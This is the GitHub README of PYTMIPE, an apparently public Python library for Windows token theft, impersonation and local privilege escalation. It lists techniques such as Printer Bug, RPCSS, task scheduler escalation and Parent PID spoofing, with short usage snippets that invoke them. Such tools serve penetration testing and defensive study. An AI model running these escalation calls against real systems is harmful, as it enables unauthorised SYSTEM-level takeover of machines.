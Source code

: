 PYTMIPE
====

__PYTMIPE__ (PYthon library for Token Manipulation and Impersonation for Privilege Escalation) is a Python library for manipulating Windows tokens and managing impersonations in order to gain more privileges on Windows. It implements some exploits for local privilege escalations on Windows.


Features
====

The following non-exhaustive list shows some features implemented in pytmipe:
* Token and privileges management:
  * get, enable or disable privilege(s) on token for current or remote thread
  * get effective token for current thread (impersonation or primary token)
* get many information about selected token(s):
  * elevation type
  * impersonation type
  * Linked token with details
  * SID
  * ACLs
  * default groups
  * primary group
  * owner
  * privileges
  * source
  * etc
* __List all tokens which are accessible__ (primary & impersonation tokens) from current thread.
  * 2 different methods implemented: "thread" method and __"handle"__ method (favorite)
  * check if token can be impersonated
  * get information about each token (elevation type, impersonation type, Linked token, SID, etc)
  * get all tokens which are accessible by account name (SID)
* Impersonate a token or user:
  * Make Token and Impersonate (requires credentials of user)
  * Token impersonation/theft (specific privileges are required): impersonate a chosen token
  * Create Process with a token (specific privileges are required): imeprsoanate a chosen token and create new process
  * __Impersonate first *nt authority\system* token__ found
  * impersonate primary token of remote process with pid
* Escalation methods:
  * __Parent PID Spoofing__ - Handle Inheritance
  * Service Manager via direct command or named pipe impersonation: local administrator to *nt authority\system*
  * Task scheduler via direct command or named pipe impersonation: local administrator to *nt authority\system*
  * WMI job via direct command or named pipe impersonation: local administrator to *nt authority\system*
  * __Printer Bug__: SeImpersonatePrivilege to *nt authority\system*
  * __RPCSS__: SeImpersonatePrivilege to *nt authority\system*
  * __Re enable privileges__ via task scheduling and named pipe impersonation
  
Dependencies
====

*ctypes* is used a maximum of time.
Many features of *pywin32* have been re developped in pytmipe to avoid the use of *pywin32* for better portability.
However, some features of pytmipe still use *pywin32* (e.g. *pythoncom*) by lack of time.
For example, Windows services management and token manipulation/management is done with ctypes only but Windows Task Scheduler management is done over *pythoncom*/*win32com* (*pywin32*).

Examples
====

Get all details of each accessible token (primary & impersonation) of all processes running locally on the system with the "handle" method:
```python
imp = Impersonate()
imp.printAllTokensAccessible(targetPID=None, printFull=True, printLinked=True, _useThreadMethod=False)
```

List token(s) by account name (SID) in process with pid 548 and use "handle" method:
```python
imp = Impersonate()
imp.printTokensAccessibleByAccountNameAndPID(targetPID=548, _useThreadMethod=False)
```

List all token(s) by account name (SID) in all processes and use "thread" method:
```python
imp = Impersonate()
imp.printTokensAccessibleByAccountNameAndPID(targetPID=None, _useThreadMethod=True)
```

Impersonate the first *nt authority\system* token (primary or impersonation) found in a process running locally:
```python
imp = Impersonate()
imp.searchAndImpersonateFirstSystemToken(targetPID=None)
```

Exploit the "Printer Bug" for privilege escalation from SeImpersonatePrivilege to *nt authority\system*:
```python
esc = Escalation()
esc.namedPipeImpersonationViaPrinterBug()
```
  
Exploit the RPCSS service for privilege escalation from *SeImpersonatePrivilege* to *nt authority\system*:
```python
esc = Escalation()
esc.namedPipeImpersonationViaRPCSS()
```

Re give full power (privileges) with task scheduling and named pipe impersonation:
```python
esc = Escalation()
esc.reGiveMePower(debug=True)
```

Privilege escalation from Local Administrator to *nt authority\system* with Windows Task Scheduler
```python
esc = Escalation()
esc.namedPipeImpersonationViaTaskScdh()
```

Parent PID Spoofing (pid 400) and executre cmd.exe
```python
esc = Escalation()
esc.spoofPPID(500, "c:\\windows\\system32\\cmd.exe")
``` 
  
HOW TO USE
====
See source code.
Normally, I have well documented the source code...

Donation
====
If you want to support my work doing a donation, I will appreciate a lot:

Via BTC: 36FugL6SnFrFfbVXRPcJATK9GsXEY6mJbf
